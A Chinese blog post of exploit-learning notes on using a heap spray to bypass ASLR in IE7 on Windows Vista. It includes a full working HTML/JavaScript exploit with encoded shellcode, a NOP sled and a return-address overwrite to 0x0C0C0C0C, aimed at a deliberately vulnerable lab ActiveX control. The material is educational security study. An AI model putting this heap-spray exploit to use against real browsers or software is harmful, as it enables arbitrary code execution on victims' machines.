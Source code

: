 ```yaml
---
title: 漏洞学习笔记-019-利用HeapSpray攻击ASLR
description: 利用Heap Spray(堆喷射)技术来攻击ASLR并定位shellcode
date: 2020-11-28 12:38:00+0800
categories:
    - Exploit
tags:
    - Windows
    - Exploit
---
```


本文来源：[Moeomu的博客](/zh-cn/posts/漏洞学习笔记-019-利用HeapSpray攻击ASLR/)

## 原理

通过申请大量的内存，占领内存中的0x0C0C0C0C的位置，并在这些内存中放置0x90和shellcode，最后控制程序转入0x0C0C0C0C执行。只要运气不要差到0x0C0C0C0C刚好位于shellcode中的某个位置，shellcode就可以成功执行

## 实验

### 准备工作

> 环境：系统：Windows Vista SP0，DEP状态：默认，浏览器：IE7

- 还是将之前用过的[Vulner_AX.dll](https://pan.moeomu.com/Tutorial/0Day安全-资料/VulnerAX_SEH/VulnerAX.ocx)作为攻击目标
- `VulnerAX.idl`中`CVulnerAXCtrl的类信息`的UUID：`ACA3927C-6BD1-4B4E-8697-72481279AAEC`

### 思想

- 我们利用Heap spray技术在内存中申请200个1MB的内存块来对抗ASLR的随机化处理
- 每个内存块中包含着0x90填充和shellcode
- Heap spray结束后我们会占领`0x0C0C0C0C`附近的内存，我们只要控制程序转入`0x0C0C0C0C`执行，在经过若干个0x90滑行之后就可以到达shellcode范围并执行
- test函数中存在一个典型的溢出漏洞，通过复制超长字符串可以覆盖函数返回地址
- 我们将函数返回地址覆盖为`0x0C0C0C0C`，在函数执行返回执行后就会转入我们申请的内存空间中

### 代码

```html
<html>
<body>
<script>
    var nops = unescape("%u9090%u9090");
    var shellcode = "\u68fc\u0a6a\u1e38\u6368\ud189\u684f\u7432\u0c91\uf48b\u7e8d\u33f4\ub7db\u2b04\u66e3\u33bb\u5332\u7568\u6573\u5472\ud233\u8b64\u305a\u4b8b\u8b0c\u1c49\u098b\u698b\uad08\u6a3d\u380a\u751e\u9505\u57ff\u95f8\u8b60\u3c45\u4c8b\u7805\ucd03\u598b\u0320\u33dd\u47ff\u348b\u03bb\u99f5\ube0f\u3a06\u74c4\uc108\u07ca\ud003\ueb46\u3bf1\u2454\u751c\u8be4\u2459\udd03\u8b66\u7b3c\u598b\u031c\u03dd\ubb2c\u5f95\u57ab\u3d61\u0a6a\u1e38\ua975\udb33\u6853\u616B\u6F6F\u4D68\u7369\u8B61\u53c4\u5050\uff53\ufc57\uff53\uf857";
    while (nops.length < 0x100000)
        nops += nops;
    nops = nops.substring(0, 0x100000/2-32/2-4/2-2/2-shellcode.length);
    nops = nops + shellcode;
    var memory = new Array();
    for (var i = 0; i < 200; i++)
        memory[i] += nops;
</script>
<object classid="clsid:ACA3927C-6BD1-4B4E-8697-72481279AAEC" id="test"> </object>
<script>
    var s = "\u9090";
    while (s.length < 54)
    {
        s += "\u9090";
    }
    s += "\u0C0C\u0C0C";
    test.test(s);
</script>
</body>
</html>
```

### 结果

- 成功攻击ASLR，如图

![pic1](https://s3.ax1x.com/2020/11/28/DyUSMR.png)  
![pic2](https://s3.ax1x.com/2020/11/28/DyUcl9.jpg)  
![pic3](https://s3.ax1x.com/2020/11/28/DyN3vR.png)
